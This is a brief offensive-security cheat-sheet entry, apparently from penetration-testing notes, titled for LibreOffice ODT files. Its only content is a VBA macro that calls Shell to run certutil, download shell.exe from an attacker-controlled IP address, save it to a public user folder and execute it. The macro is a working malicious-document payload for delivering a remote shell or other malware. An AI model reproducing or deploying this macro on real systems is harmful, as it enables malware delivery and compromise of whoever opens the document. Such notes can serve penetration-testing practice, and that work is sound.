 # LibreOffice

## ODT File

```vba
Sub Main
    Shell("cmd /c certutil.exe -urlcache -split -f http://192.168.49.72/shell.exe c:\users\public\shell.exe & c:\users\public\shell.exe")
End Sub
```

